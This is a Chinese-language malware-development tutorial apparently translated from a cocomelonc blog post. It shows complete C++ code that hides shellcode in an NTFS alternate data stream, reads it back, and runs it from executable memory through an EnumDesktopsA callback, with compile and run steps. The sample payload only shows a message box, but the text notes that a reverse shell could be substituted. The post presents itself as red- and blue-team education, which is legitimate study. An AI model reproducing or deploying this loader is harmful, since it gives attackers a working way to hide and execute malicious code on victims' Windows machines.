






\newpage
\subsection{恶意软件开发技巧：在备用数据流中存储载荷（简单的 C++ 示例）}

今天，这篇文章是我自己对另一个流行恶意软件开发技巧的研究结果：把恶意数据存储在备用数据流（ADS）中，以及攻击者如何利用它实现持久化。

{width="80%"}

### 备用数据流

备用数据流（Alternate Data Streams）允许把多个数据「流」关联到单个文件名上，这项能力可以用来存储元数据。

虽然这个特性最初是为了支持使用资源分支（resource fork）来存储文件图标和其他信息的 Macintosh 分层文件系统（HFS）而设计的，但它也可以被、并且确实被用于隐藏数据和恶意代码。

### 实战示例

下面是一个把载荷存储到 ADS 中的简单示例代码 `hack.c`：

```cpp
/*
hack.c
malware store data in alternate data streams
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/26/malware-tricks-35.html
*/
#include <windows.h>
#include <stdio.h>

int main() {
  // name of the file to which we'll attach the ADS
  char* filename = "C:\\temp\\meow.txt";

  // name of the ADS
  char* streamname = "hiddenstream";

  // full path including the ADS
  char fullpath[1024];
  sprintf(fullpath, "%s:%s", filename, streamname);

  // the data we're going to write to the ADS
  // meow-meow messagebox
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  printf("original payload: ");
  for (int i = 0; i < sizeof(my_payload); i++) {
  printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  // write data to the ADS
  HANDLE hFile = CreateFile(fullpath, GENERIC_WRITE, 0, NULL, 
  CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  printf(hFile == INVALID_HANDLE_VALUE ? "unable to open file!\n" : 
  "successfully write payload data to the ADS\n");
  DWORD bw;
  WriteFile(hFile, my_payload, sizeof(my_payload) - 1, &bw, NULL);
  CloseHandle(hFile);

  // now read the data back
  hFile = CreateFile(fullpath, GENERIC_READ, 0, NULL, 
  OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  printf(hFile == INVALID_HANDLE_VALUE ? "unable to open file!\n" : 
  "successfully read payload data from file\n");

  unsigned char data[sizeof(my_payload) - 1];
  DWORD br;
  ReadFile(hFile, data, sizeof(data), &br, NULL);
  CloseHandle(hFile);

  printf("read from file, payload:\n");
  for (int i = 0; i < sizeof(data); i++) {
  printf("%02x ", data[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, sizeof(data), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, data, sizeof(data));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;

```

逻辑相当简单。这段代码把数据写入一个 ADS，然后再把它读回来。

然后通过 `EnumDesktopsA` 执行载荷数据。

```cpp
unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";
```

这段代码在指定文件上创建一个名为 `hiddenstream` 的 ADS，并把我们的载荷数据写入其中。

### 演示

我们来看这段逻辑的实际效果。

编译它：

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}

然后，把我们的测试用受害文件 `meow.txt` 移到 `C:\temp\`：

{width="80%"}

最后运行：

```powershell
.\hack.exe
```

{width="80%"}

我们可以用下面的命令检查备用数据流：

```powershell
Get-Item -Path C:\temp\meow.txt -Stream *
```

{width="80%"}

{width="80%"}

我们可以看到一切都按预期工作了！=..=

请注意，备用数据流（ADS）这一特性是 NTFS 特有的，其他文件系统比如 FAT32、exFAT、ext4（Linux 使用的）等都不支持这个特性。

这种执行代码的方法常被 APT29 和 APT32 使用，也被 PowerDuke 之类的软件使用。

我希望这篇文章能让蓝队意识到这项有趣的恶意软件开发技术，同时为红队的武器库增添一件武器。

[T1564.004 - Hide Artifacts: NTFS File Attributes](https://attack.mitre.org/techniques/T1564/004/)  
[APT29](https://attack.mitre.org/groups/G0016)  
[APT32](https://attack.mitre.org/groups/G0050)  
[malpedia: APT29](https://malpedia.caad.fkie.fraunhofer.de/actor/apt29)  
[malpedia: APT32](https://malpedia.caad.fkie.fraunhofer.de/actor/apt32)  
[PowerDuke](https://attack.mitre.org/software/S0139)  
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-07-26-malware-trick-35)

和往常一样，出于简单考虑，我使用 meow-meow 消息框：

然后它把数据读回来并打印出来，用于检查正确性。

在真实场景中，这些数据可以是一个恶意可执行文件，比如反向 shell 或其他 shellcode，它需要被提取到临时位置并单独执行。
